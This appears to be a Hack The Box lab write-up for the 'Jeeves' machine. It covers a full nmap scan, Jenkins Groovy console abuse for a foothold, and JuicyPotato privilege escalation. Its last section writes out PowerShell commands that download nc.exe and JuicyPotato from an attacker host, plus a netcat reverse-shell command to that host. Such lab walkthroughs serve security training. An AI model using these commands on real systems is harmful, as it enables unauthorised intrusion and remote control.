# Jeeves (`10.10.10.63`)

## Summary

## `/etc/hosts`

I begin by adding an entry in `/etc/hosts` to resolve `jeeves.htb` to `10.10.10.63`. I use this later in my report.

## Enumeration

I start a portscan of all ports (`-p-`), running OS, service version, and vulnerability scripts (`-A`), skipping host discovery (`-Pn`), with verbose logging (`-v`) and output to a file (`-oN`).

```bash
$ nmap -A -v -p- -Pn -oN allports jeeves.htb
# Nmap 7.80 scan initiated Fri Sep 18 04:45:39 2020 as: nmap -A -v -p- -Pn -oA allports jeeves.htb
Nmap scan report for jeeves.htb (10.10.10.63)
Host is up (0.044s latency).
Not shown: 65531 filtered ports
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Ask Jeeves
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Error 404 Not Found
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2008 (87%), FreeBSD 6.X (86%)
OS CPE: cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:freebsd:freebsd:6.2
Aggressive OS guesses: Microsoft Windows Server 2008 R2 (87%), FreeBSD 6.2-RELEASE (86%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 0.004 days (since Fri Sep 18 04:44:34 2020)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=263 (Good luck!)
IP ID Sequence Generation: Incrementing by 2
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 5h06m10s, deviation: 0s, median: 5h06m10s
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-09-18T14:55:17
|_  start_date: 2020-09-18T14:50:59

TRACEROUTE (using port 135/tcp)
HOP RTT      ADDRESS
1   41.27 ms 10.10.14.1
2   41.28 ms jeeves.htb (10.10.10.63)

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Sep 18 04:49:47 2020 -- 1 IP address (1 host up) scanned in 248.72 seconds
```

### Port 80



### Port 50000





## Reverse Shell

I followed this tutorial: https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6




## Privilege Escalation



`SeImpersonatePrivilege` means `JuicyPotato` time.

```
$ sudo python3 -m http.server 80

> powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://10.10.14.39/nc.exe', 'nc.exe')
> powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://10.10.14.39/JuicyPotato.exe', 'JuicyPotato.exe')
```





```
JuicyPotato -l 1337 -p c:\windows\system32\cmd.exe -a "/c c:\Users\kohsuke\Desktop\nc.exe -e cmd.exe 10.10.14.39 443" -t *
```








